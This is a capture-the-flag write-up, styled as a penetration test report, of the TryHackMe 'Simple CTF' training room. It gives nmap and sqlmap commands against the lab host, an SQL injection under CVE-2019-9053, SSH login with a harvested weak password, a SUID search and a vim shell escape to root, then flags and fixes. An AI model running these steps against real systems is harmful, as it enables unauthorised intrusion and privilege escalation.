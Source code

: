 # TryHackMe - Simple CTF Penetration Test Report  

**Date:** 12-08-2025  
**Tester:** Nakulan  
**Target IP:**   10.201.57.141
**Room Link:** [Simple CTF](https://tryhackme.com/room/easyctf)  

---

## 1. Executive Summary  
This penetration test was performed on the **Simple CTF** room to identify and exploit vulnerabilities in a simulated environment.  

**Key Findings:**  
- Multiple services exposed on low and high ports  
- Web application vulnerable to **SQL injection (CVE-2019-9053)**  
- Weak credentials retrieved from the database allowed SSH login  
- Misconfigured privilege escalation via `vim` enabled root compromise  

---

## 2. Scope  
**In Scope:**  
- Host: ``  
- Services exposed on open ports  
- Web application hosted on HTTP  

**Out of Scope:**  
- Attacks on unrelated IPs  
- Denial of Service (DoS)  

---

## 3. Methodology  
The pentest followed these phases:  
1. **Reconnaissance** – Service & directory enumeration  
2. **Exploitation** – SQL injection, credential harvesting  
3. **Privilege Escalation** – Exploiting misconfigured binaries  
4. **Post-Exploitation** – User and root flag retrieval  

---

## 4. Findings  

### 4.1 Reconnaissance  
**Tool:** Nmap  
```bash
nmap -sV  10.201.57.141
```
**Result:**

-Services under port 1000: 2
-Higher port: SSH (22)

### 4.2 Web Exploitation
**Tool:** SQLMap


``` bash
sqlmap -u "http:// 10.201.57.141/search.php?id=1" --dbs 
```
**Found vulnerability:** SQL Injection (SQLi)

**CVE used:** CVE-2019-9053

**Extracted credentials:**

**Username:** <from db>

**Password:** secret

### 4.3 SSH Login
Used discovered credentials:

ssh <username>@< 10.201.57.141>
Successfully logged in with password secret.

### 4.4 User Flag
Located in user’s home directory:

G00d j0b, keep up!

### 4.5 Additional User Enumeration
Checked /home directory:

Found another user: sunbath

### 4.6 Privilege Escalation
Checked SUID binaries:

```bash

find / -perm -4000 -type f 2>/dev/null
```

Found misconfigured vim binary.

Escalated privileges to root using:

vim -c ':!/bin/sh'

4.7 Root Flag
Located in /root:


W3ll d0n3. You made it!

## 5. Proof of Exploitation
User flag: G00d j0b, keep up!

Root flag: W3ll d0n3. You made it!

## 6. Recommendations
Patch web application to fix SQL injection (CVE-2019-9053)

Enforce stronger SSH credentials

Remove or restrict dangerous SUID binaries (e.g., vim)

Monitor for suspicious user accounts and activity

## 7. Lessons Learned
Enumeration quickly reveals vulnerable services and ports

SQL injection remains one of the most impactful web vulnerabilities

Weak SSH credentials are a common entry point in CTFs and real systems

Privilege escalation often relies on overlooked SUID binaries